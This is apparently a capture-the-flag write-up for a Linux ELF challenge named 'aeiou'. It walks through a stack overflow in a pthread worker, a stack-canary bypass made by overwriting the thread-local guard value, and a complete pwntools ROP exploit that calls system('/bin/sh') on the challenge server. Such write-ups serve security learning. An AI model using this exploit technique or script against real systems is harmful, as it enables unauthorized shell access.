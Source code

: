 ## aeiou

We are provided with a 64-bit Linux ELF binary, libc.so, and network address to exploit. The binary is a simple service with a menu. It is not PIE but it does have stack canaries.

After a quick review of each menu option, we focused on "Teaching numbers" which creates a thread with a trivial stack buffer overflow:

```
void *__fastcall teach_numbers_thread(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s[4096]; // [rsp+10h] [rbp-1010h]
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(s, 0, 0x1000uLL);
  puts("Hello!");
  puts("Let me know the number!");
  v2 = read_number();
  if ( v2 <= 0x10000 )
  {
    readn(0, (__int64)s, v2);
    puts("Thank You :)");
  }
  else
  {
    puts("Too much :(");
  }
  return 0LL;
}
```

Notably, we can read up to 0x10000 bytes into a buffer that has space for only 0x1000 bytes.

The stack canary would normally make exploitation of this vulnerability difficult. Since the stack overflow is in a thread created with pthread\_create, we can overflow into the thread local structure that contains the correct stack canary value and corrupt its contents. See [https://bugzilla.redhat.com/show\_bug.cgi?id=1535038](https://bugzilla.redhat.com/show_bug.cgi?id=1535038).

One problem that we ran into after writing our exploit is that we overwrote too much of the thread local structure, so we caused the system function in libc to crash. Specifically, after the ```stack_guard``` field there is the ```pointer_guard``` field. So by overwriting just enough to overwrite the stack canary we avoided crashing in libc.

```
#!/usr/bin/env python
from pwn import *

pop_rbx_rbp_r12_r13_r14_r15 = 0x4026EA

buf  = 'A' * 0x1010
buf += ''.join(map(p64, [
    0,
    pop_rbx_rbp_r12_r13_r14_r15,
    0,
    1,
    0x603F80, # read .got
    0x10,
    0x604200, # address to store command string
    0,
    0x4026d0, # mov rdx, r13; mov rsi, r14; mov edi, r15d; call [r12 + rbx * 8]
    0, # dummy
    0,
    1,
    0x603F68, # system .got
    0,
    0,
    0x604200, # argument to system
    0x4026d0, # mov rdx, r13; mov rsi, r14; mov edi, r15d; call [r12 + rbx * 8]
]))
buf = buf.ljust(6128, 'A')

r = remote('110.10.147.109', 17777)
r.readuntil('>>')
r.sendline('3')
r.readuntil('Let me know the number!')
r.sendline(str(len(buf)))
r.send(buf)
r.readuntil('Thank You :)\n')
r.send('/bin/sh'.ljust(0x10, '\0'))
r.interactive()
```
